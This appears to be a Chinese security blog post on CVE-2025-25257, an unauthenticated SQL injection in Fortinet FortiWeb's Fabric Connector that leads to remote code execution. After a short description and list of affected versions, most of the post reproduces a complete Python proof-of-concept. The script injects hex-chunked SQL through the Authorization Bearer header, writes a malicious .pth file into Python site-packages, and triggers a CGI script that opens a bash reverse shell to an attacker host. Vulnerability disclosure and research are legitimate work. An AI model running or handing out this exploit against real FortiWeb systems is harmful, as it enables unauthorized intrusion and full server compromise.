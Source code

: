 #  CVE-2025-25257｜Fortinet FortiWeb SQL注入漏洞（POC）  
alicy  信安百科   2025-07-19 09:53  
  
**0x00 前言**  
  
  
FortiWeb是Fortinet公司推出的企业级Web应用防火墙（WAF），专为保护Web应用和API抵御高级威胁设计。它集成人工智能与机器学习技术，通过双层检测引擎（HMM模型与SVM向量机）精准识别异常流量，可防御OWASP Top 10攻击、SQL 注入、XSS、DDoS及恶意机器人  
。其核心功能包括API自动化保护、虚拟补丁集成（兼容Acunetix等第三方扫描工具）及智能流量分析，支持HTTP/2、WebSocket等现代协议  
。  
  
  
  
**0x01 漏洞描述**  
  
  
漏洞源于Fortinet FortiWeb Fabric Connector组件在认证处理中没有严格校验输入参数，攻击者可在Authorization: Bearer头中注入恶意SQL语句，实现远程代码执行获取服务器权限。  
  
  
当恶意查询包含文件写入操作（如 INTO OUTFILE）时，利用MySQL服务以root权限运行的特权，向Python的site-packages目录写入恶意 .pth文件。当FortiWeb执行特定的Python CGI脚本时，会自动加载该文件并执行其中代码，最终实现任意系统命令执行。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-25257  
  
  
  
**0x03 影响版本**  
  
****```
FortiWeb 7.6.0 - 7.6.3
FortiWeb 7.4.0 - 7.4.7  
FortiWeb 7.2.0 - 7.2.10
FortiWeb 7.0.0 - 7.0.10
```  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/watchtowrlabs/watchTowr-vs-FortiWeb-CVE-2025-25257  
```
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import argparse
import binascii
import random
from time import sleep
banner = """			 __         ___  ___________                   
	 __  _  ______ _/  |__ ____ |  |_\\__    ____\\____  _  ________ 
	 \\ \\/ \\/ \\__  \\    ___/ ___\\|  |  \\|    | /  _ \\ \\/ \\/ \\_  __ \\
	  \\     / / __ \\|  | \\  \\___|   Y  |    |(  <_> \\     / |  | \\/
	   \\/\\_/ (____  |__|  \\___  |___|__|__  | \\__  / \\/\\_/  |__|   
				  \\/          \\/     \\/                            

        watchTowr-vs-FortiWeb-CVE-2025-25257.py

        (*) FortiWeb Unauthenticated SQLi to Remote Code Execution Detection Artifact Generator

          - Sina Kheirkhah (@SinSinology) of watchTowr (@watchTowrcyber)

        CVEs: [CVE-2025-25257]
"""
print(banner)

parser = argparse.ArgumentParser(description='Detection Artifact Generator for CVE-2025-25257')
parser.add_argument('--target', required=True, help='Target URL')
parser.add_argument('--lhost', required=True)
parser.add_argument('--lport', required=True)
args = parser.parse_args()

args.command = f"""import os; os.system('bash -c "/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"')"""
args.target = args.target.rstrip('/')

s = requests.Session()
s.verify = False 

def build_token_updates(encoded_hex: str, chunk_size: int = 10):
    if chunk_size % 2 != 0:
        print("[!] chunk size must be even bro")
        exit(1)

    chunks = [encoded_hex[i : i + chunk_size]
              for i in range(0, len(encoded_hex), chunk_size)]

    for idx, piece in enumerate(chunks):
        if idx == 0:
            sql = (
                f"SET/**/token=UNHEX('{piece}')"
            )
        else:
            sql = (
                f"SET/**/token=CONCAT(token,UNHEX('{piece}'))"
            )

        payload = (
            f"Bearer '/**/;UPDATE/**/fabric_user.user_table/**/"
            f"{sql};SELECT/**/'1'"
        )
        s.headers.update({'Authorization': payload})
        s.get(f"{args.target}/api/fabric/device/status")
        print(f"[*] sprayed chunk #{idx+1}/{len(chunks)}:\t{piece!r}")
        sleep(1)

encoded_command = binascii.hexlify(args.command.encode()).decode()
build_token_updates(encoded_command)

s.headers.update({
    'Authorization': f"Bearer '/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'../../lib/python3.10/site-packages/x.pth"
})

s.get(f"{args.target}/api/fabric/device/status")

print("\n[*] Pop thy shell!")
s.headers.pop('Authorization', None)
s.head(f"{args.target}/cgi-bin/ml-draw.py")
```  
  
  
  
  
  
**0x05 参考链接**  
  
  
https://fortiguard.fortinet.com/psirt/FG-IR-25-151  
  
  
  
  
推荐阅读：  
  
  
[CVE-2025-32756｜Fortinet多款产品存在远程代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485986&idx=2&sn=7a87bb2da8ae173794e4a4250b47452a&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-47575｜Fortinet FortiManager身份验证不当漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485671&idx=1&sn=0bcb6efe26a9d6e6c0deaf625f1db8c6&scene=21#wechat_redirect)  
  
  
  
[CVE-2023-48788｜Fortinet FortiClientEMS SQL注入漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485078&idx=1&sn=5e8e640c5cc88c4742ff0a2d1f7214a9&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
